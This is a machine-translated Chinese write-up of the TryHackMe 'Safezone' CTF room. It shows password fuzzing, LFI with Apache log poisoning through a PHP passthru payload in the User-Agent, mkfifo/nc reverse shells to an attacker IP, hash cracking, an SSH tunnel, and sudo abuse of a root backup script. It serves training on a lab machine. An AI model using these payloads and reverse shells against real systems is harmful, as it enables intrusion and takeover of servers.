# TryHackMe 报道—安全地带

> 原文：<https://infosecwriteups.com/tryhackme-writeup-safezone-95617de166c2?source=collection_archive---------0----------------------->

嗨，伙计们，又和特里哈克姆 with 玩得开心了。所以，这里是通过这个**安全区**挑战的记录和指南。这个 CTF 房间是由 CTF 情人为 CTF 情人设计的。


**房间**:[https://tryhackme.com/room/safezone](https://tryhackme.com/room/safezone)
**级别**:中等

**任务**:没有可用的帮助/提示。需要一路到 CTF 去扎根

# 我们开始吧

像往常一样，启动机器并在浏览器中打开 IP



只是快速看了一下，只是一个简单的主页面。让我们运行漏洞扫描程序，

```
# nikto -h 10.10.X.X
.....
+ Server: Apache/2.4.29 (Ubuntu)
+ Server leaks inodes via ETags, header found with file /, fields: 0x1f7 0x5ba0b8a8bee0a
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Cookie PHPSESSID created without the httponly flag
+ No CGI Directories found (use '-C all' to force check all possible dirs)
**+ Multiple index files found: /index.html, /index.php**
+ Allowed HTTP Methods: HEAD, GET, POST, OPTIONS
+ OSVDB-3233: /icons/README: Apache default file found.
....
```

扫描仪显示有多个索引文件。让我看看，



index.php

index.html 显示的是登录页面，而 index.php 显示的是登录表单。如果这是一张表格，那么我们可以检查这张表格是否暴露在 SQL 注入面前。

```
# sqlmap --forms --url http://10.10.X.X/index.php --random-agent --risk=3
```

不幸的是，它不容易受到 SQL 注入的攻击。但是，没关系，如果有任何隐藏路径，我们可以尝试暴力目录路径。由于同一个索引页面有多个扩展，我们需要在路径发现中包括扩展。使用`feroxbuster`，

```
# feroxbuster -w ~/1gb_dict.txt -t 60 --url http://10.10.X.X/ -x txt,php,html -C 403,301,302
...
200        3l        3w       54c [http://10.10.X.X/logout.php](http://10.10.232.200/logout.php)
200       45l      123w     2334c [http://10.10.X.X/register.php](http://10.10.232.200/register.php)
200       46l      126w     2372c [http://10.10.](http://10.10.232.200/index.php)[X.X](http://10.10.232.200/register.php)[/index.php](http://10.10.232.200/index.php)
200       23l       55w      503c [http://10.10.](http://10.10.232.200/index.html)[X.X](http://10.10.232.200/register.php)[/index.html](http://10.10.232.200/index.html)
**200        3l       21w      121c** [**http://10.10.**](http://10.10.232.200/note.txt)[**X.X**](http://10.10.232.200/register.php)[**/note.txt**](http://10.10.232.200/note.txt) **200        5l       21w      112c** [**http://10.10.X.X/~files/pass.txt**](http://10.10.232.200/~files/pass.txt)
[#######] - 17m  1494744/1494744 0s      found:6       errors:187
[#######] - 9m    249124/249124  459/s   [http://10.10.232.200/](http://10.10.232.200/)
[#######] - 8m    249124/249124  462/s   http://10.10.232.200/~files
```

找到 6 个可用的页面，有奇怪的路径。打开它，

```
Message from **admin** :-

I can't remember my password always , that's why I have saved it in **/home/files/pass.txt** file .
```

注意到“admin”将其密码存储在特定的文件`**/home/files/pass.txt**`中。可能有一些页面暴露于 LFI 或 RFI。但是还有另一条路`**~files/pass.txt**`。

```
Admin password hint :-

**admin__admin**

" __ means two numbers are there , this hint is enough I think :) "
```

现在我们有了管理员用户的凭证

```
username: Admin
password: adminXXadmin
```

登录页面在 3 次尝试登录后有 60 秒的限制锁定。通过对 XX 值使用模糊化方法，

```
# wfuzz -c -z range,00-99 -d "username=admin&password=admin**FUZZ**admin&submit=Submit" -X POST -u http://10.10.X.X/index.php -t 1 -s 20
...
...
000000042:   200        46 L     135 W      2428 Ch     "41"
000000043:   200        46 L     135 W      2428 Ch     "42"
000000044:   200        46 L     135 W      2428 Ch     "43"
**000000045:   200        49 L     XXX W      2445 Ch     "XX"**
000000046:   200        46 L     132 W      2430 Ch     "45"
000000047:   200        46 L     132 W      2430 Ch     "46"
000000048:   200        46 L     135 W      2428 Ch     "47"
000000049:   200        46 L     135 W      2428 Ch     "48"
000000050:   200        46 L     135 W      2428 Ch     "49"
....
....
```

因为在请求中有一个延迟。幸运的是，我们找到了 XX 值。让我们登录，



现在，我们可以访问管理页面，浏览页面



新闻页面告诉我们有 LFI 或 RFI 发生在这个网页上，继续到详细页面



那里有一个文本框。几次尝试之后，这个框只是一个文本框，用来检查用户是否存在。使用用户名字典简单地运行模糊化，

```
# wfuzz -c -w ~/names.txt -d "name=FUZZ&sub=whoami" -X POST -b "PHPSESSID=b1ttpdegqsltofrbcj2ko4akj2" -u http://10.10.X.X/detail.php --filter "h>1572"
....
000000086:   200        117 L    119 W      1643 Ch     "admin"
```

仅找到“admin”用户名。没关系，只是运行简单的 sqlmap 来检查任何 SQL 注入漏洞，

```
# sqlmap --forms --url http://10.10.X.X/detail.php --cookie="PHPSESSID=b1ttpdegqsltofrbcj2ko4akj2" --random-agent --risk=3
```

这里也没有运气。如果我们看源代码，那里有一个提示说有“page”参数可以使用。再次运行 fuzzing，

```
# wfuzz -c -w ~/LFI.txt -u "http://10.10.X.X/detail.php?page=FUZZ" -b "PHPSESSID=b1ttpdegqsltofrbcj2ko4akj2" --filter "l>117"
**000000015:   200        132 L    237 W      2209 Ch     "/etc/crontab"**
**000000001:   200        149 L    154 W      3144 Ch     "/etc/passwd"**
000000018:   200        127 L    188 W      1948 Ch     "/etc/fstab"
000000005:   200        352 L    1242 W     8871 Ch     "/etc/apache2/apache2.conf"
000000026:   200        134 L    224 W      2201 Ch     "/etc/hosts.deny"
000000038:   200        119 L    118 W      1511 Ch     "/etc/issue"
000000025:   200        127 L    170 W      1902 Ch     "/etc/hosts.allow"
000000024:   200        124 L    135 W      1673 Ch     "/etc/hosts"
000000053:   200        119 L    125 W      1579 Ch     "/etc/networks"
000000051:   200        140 L    248 W      2361 Ch     "/etc/mysql/my.cnf"
000000055:   200        149 L    154 W      3144 Ch     "/etc/passwd"
000000052:   200        121 L    129 W      1588 Ch     "/etc/network/interfaces"
000000048:   200        150 L    311 W      3893 Ch     "/etc/mtab"
000000044:   200        121 L    119 W      1596 Ch     "/etc/lsb-release"
000000080:   200        136 L    228 W      2240 Ch     "/etc/resolv.conf"
000000070:   200        144 L    210 W      2068 Ch     "/etc/profile"
000000083:   200        168 L    332 W      3074 Ch     "/etc/ssh/ssh_config"
....
....
000000084:   200        239 L    509 W      4744 Ch     "/etc/ssh/sshd_config"
**000000164:   200        13309 L  165696 W   1371210 Ch   "/var/log/apache2/access.log"**
000000181:   200        9912 L   58696 W    693025 Ch   "/var/log/dpkg.log"
000000220:   200        133 L    226 W      57158 Ch    "/var/log/wtmp"
```

参考结果，`crontab`文件中没有可用的权限提升。同样适用于`passwd`文件。最后一个是 apache 日志。这方面的常见问题是日志中毒漏洞。

参照[**payloadofall things**](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)



我们需要通过用户代理头发送一个恶意负载，并尝试使用`cmd`参数 LFI。

```
# curl -b "PHPSESSID=b1ttpdegqsltofrbcj2ko4akj2" http://10.10.X.X/detail.php -A "<?php passthru($_GET['cmd']);?>"
# curl -b "PHPSESSID=b1ttpdegqsltofrbcj2ko4akj2" [http://10.10.X.X/detail.php?page=/var/log/apache2/access.log&cmd=ls](http://10.10.X.X/detail.php?page=/var/log/apache2/access.log&cmd=ls)
....
....
10.X.X.X - - [06/Jun/2021:09:23:40 +0530] "GET /detail.php HTTP/1.1" **200 1758 "-" "dashboard.php
detail.php
index.html
index.nginx-debian.html
index.php
logout.php
news.php
note.txt
register.php
"**
10.X.X.X - - [06/Jun/2021:09:24:16 +0530] "GET /detail.php?page=/var/log/apache2/access.log&cmd=id HTTP/1.1" 200 1389835 "-" "curl/7.64.1"
....
```

现在，LFI 正在发挥作用。现在，让我们注入反向外壳。

```
# curl -b "PHPSESSID=t72mkfr54ddhp1l5rn60ft8jvd" [http://10.10.X.X/detail.php\?page\=/var/log/apache2/access.log\&cmd\=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.8.163.74%201993%20%3E%2Ftmp%2Ff](http://10.10.10.29/detail.php%5C?page%5C=/var/log/apache2/access.log%5C&cmd%5C=rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f%7C/bin/sh%20-i%202%3E&1%7Cnc%2010.8.163.74%201993%20%3E/tmp/f)
```

并在本地机器上监听

```
# nc -lvnp 1993
Connection from 10.10.10.29:51346
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
$ export TERM=xtermwww-data@safezone:/var/www/html$
```

好了，现在我们可以访问服务器了。只是快速检查一下`/home`目录中可用的用户

```
# ls /home
yash files# ls -al /home/yash
ls: cannot open directory 'yash': Permission denied

# ls -al /home/files
....
....
**-rw-r--r-- 1 root  root   105 Jan 29 20:38 '.something#fake_can@be^here'
-rwxrwxrwx 1 root  root   112 Jan 29 10:24  pass.txt**
....
```

pass.txt 是较早的。还有一个奇怪的文件。快速查找

```
# cat **.something#fake_can@be^here** files:**[HASH]**
```

好像是用户名和密码。可能会导致 SSH 访问。让我们看看这是什么散列。

```
# hashid hash.txt
--File 'hash.txt'--
Analyzing '**[HASH]**'
[+] SHA-512 Crypt
--End of file 'hash.txt'--
```

打开 hashcat，

```
# hashcat -m 1800 -a 0 hash.txt wordlists/dict.txt
**...
[HASH]**:**[PASSWORD]
...**
```

现在我们找到了用户的密码。让我们试着登录

```
# ssh files@10.10.X.X
files@10.10.X.X's password:**files@safezone**:**~**$
```

起作用了。让我们看看根目录。

```
# ls -al /
drwxr-xr-x  22 root root       4096 Jan 29 00:25 **lib** drwxr-xr-x   2 root root       4096 Mar 29 01:20 **lib64** drwx------   2 root root      16384 Jan 29 00:04 **lost+found** drwxr-xr-x   3 root root       4096 Jan 29 00:04 **media** drwxr-xr-x   2 root root       4096 Apr 26  2018 **mnt
drwxr-x---   2 root yash       4096 Jan 30 19:52 opt** dr-xr-xr-x 116 root root          0 Jun  6 12:46 **proc** drwx------   7 root root       4096 Mar 29 05:15 **root** drwxr-xr-x  26 root root        880 Jun  6 13:36 **run**
```

“opt”目录显示归“yash”集团所有。找到使用这条路径的人

```
# grep -rw "/opt" /etc /var /home 2> /dev/null
...
...
**/etc/nginx/sites-available/default: root /opt;** ...
...
```

在搜索结果中，这引起了我的注意。打开文件，

```
server {
    listen 127.0.0.1:8000 default_server;
    #listen [::]:8000 default_server;
    ...
    ...
    root /opt;
    ...
    ...
}
```

只能从内部进入。从内部卷曲

```
# curl 127.0.0.1:8000<html>
<head><title>403 Forbidden</title></head>
<body bgcolor="white">
<center><h1>403 Forbidden</h1></center>
<hr><center>nginx/1.14.0 (Ubuntu)</center>
</body>
</html>
```

这是禁止的，但应用程序正在工作。让我们做 SSH 隧道，这样我们就可以破解目录。退出服务器，并使用隧道重新进入。

```
# ssh -L 8080:127.0.0.1:8000 files@10.10.X.X
```

好了，现在我们可以跑了

```
# feroxbuster -w ~/Project/pentest/wordlists/SecLists/Discovery/Web-Content/raft-large-directories.txt -t 100 --url http://127.0.0.1:8080/ -x txt,php,html -C 403,301,302200       18l       38w      462c [http://127.0.0.1:8080/login.html](http://127.0.0.1:8080/login.html)
[########] - 8m    747372/747372  0s      found:1       errors:0
[########] - 8m    249124/249124  469/s   http://127.0.0.1:8080/
```

根据过滤器仅找到有效的 1 页。



经过几次测试，用户名和密码似乎不容易被攻击。查找 javascript 文件。那里还有另一条路。



打开“pentest.php”页面。



一个简单 unix 命令的快速测试，看起来这个盒子正在过滤一些命令，比如 bin，whoami，php 和 python。不过滤`ls`、`cat`、`curl`、`sh`等命令。



输入的每个命令都不会在此页面中输出。所以我决定测试我是否从命令输出中写一个文件。

```
cat /home/files/pass.txt > /home/files/pass2.txt
```

打开`files`用户主文件夹，

```
**files@safezone**:**~**$ ls
**pass.txt**  pass2.txt
```

它工作了。所以，让我们试试其他的

```
ls -al /home/yash > /home/files/yash.txt# cat ~/yash.txt
...
-rw-rw-r-- 1 yash yash   38 Jan 30 15:24 flag.txt
...cat ~/flag.txt > /home/files/yash.txt# cat ~/yash.txt
THM{c296539f3286a89XXXXXXXXXXXXXXXXX}
```

现在我们发现了第一面旗帜。继续找根旗。记住，消息文本框实际上过滤了某些命令。我们检查一下源代码怎么样？

```
cat * > /home/files/yash.txt
```

从源代码 pentest.php，



所以我们不能从页面运行反向 shell。由于我们有访问用户“文件”的权限，创建一个包含反向外壳的可执行外壳

```
# echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.X.X 1993 >/tmp/f" > ~/givemeaccess
# chmod +x ~/givemeaccess
# chmod 777 ~/givemeaccess
```

通过请求发送`/home/files/givemeaccess`，现在我们获得了对`yash`用户的访问权。快速检查权限，

```
# sudo -l
Matching Defaults entries for yash on safezone:env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH", secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpassUser yash may run the following commands on safezone:(root) NOPASSWD: /usr/bin/python3 /root/bk.py
```

为 python 运行 sudo 只针对文件 bk.py，让我们试试吧，

```
sudo python3 /root/bk.py
Enter filename: /root/*
Enter destination: /home/yash/testing/
Enter password: abcd
```

让我们看看，

```
# ls -al ~/testing
-rwxr-xr-x 1 root root  336 Jun  6 20:28 **bk.py** -rw-r--r-- 1 root root  462 Jun  6 20:28 login.html
-rw-r--r-- 1 root root  578 Jun  6 20:28 login.js
-rw-r--r-- 1 root root  813 Jun  6 20:28 pentest.php
**-rw-r--r-- 1 root root   38 Jun  6 20:28 root.txt**
```

现在我们找到了最后的旗帜！。

这个房间相当棘手。大量的尝试和错误。无论如何，感谢你的阅读，让我们来看看另一篇文章。🤘